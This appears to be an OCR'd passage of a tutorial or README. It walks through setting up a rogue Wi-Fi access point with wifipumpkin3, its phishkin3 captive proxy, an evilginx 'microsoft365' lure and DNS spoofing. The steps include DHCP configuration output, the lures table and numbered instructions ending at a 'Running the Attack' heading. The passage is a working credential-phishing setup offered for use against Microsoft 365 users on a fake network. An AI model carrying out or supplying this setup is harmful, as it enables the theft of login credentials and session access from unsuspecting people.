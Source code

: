 ``` sh
wp3 > dhcpconf

[*] DHCP Server Option:
=======================

   Id | Class   | IP address range            | Netmask       | Router
------+---------+-----------------------------+---------------+-------------
    0 | A       | 10.0.0.20/10.0.0.50         | 255.0.0.0     | 10.0.0.1
    1 | B       | 172.16.0.100/172.16.0.150   | 255.240.0.0   | 172.16.0.1
    2 | C       | 192.168.0.100/192.168.0.150 | 255.255.255.0 | 192.168.0.1

[*] DHCP Server Settings:
=========================

 broadcast=172.16.0.255
 classtype=A
 leasetimeDef=600
 leasetimeMax=7200
 netmask=255.240.0.0
 range=172.16.0.100/172.16.0.150
 router=172.16.0.1 <------------------ WP router
 subnet=172.16.0.0
```

3 - We enable the phishkin3 proxy. 

4 - We set the URL generated by evilgnix, e.g., in our lures 0 command.

```sh
: lures 

+-----+---------------+-----------+------------+-------------+------------+-------------------+-------+
| id  |   phishlet    | hostname  |   path     | redirector  | ua_filter  |   redirect_url    |  og   |
+-----+---------------+-----------+------------+-------------+------------+-------------------+-------+
| 0   | microsoft365  |           | /woqfrPHo  |             |            | http://172.16...  | ----  |
+-----+---------------+-----------+------------+-------------+------------+-------------------+-------+
```

5 - We set the proxy port to 8080 (this wasn't really necessary).

6 - We configure the redirect that will be done after the login process is completed; in this case, it will be google.com, and below, we configure the GET path to grant internet access after the login process is finished.

7 - Now, just configure the DNSspoof plugin and all the subdomains we configured in /etc/hosts.

8 - Now, we just start the attack.

### Running the Attack 
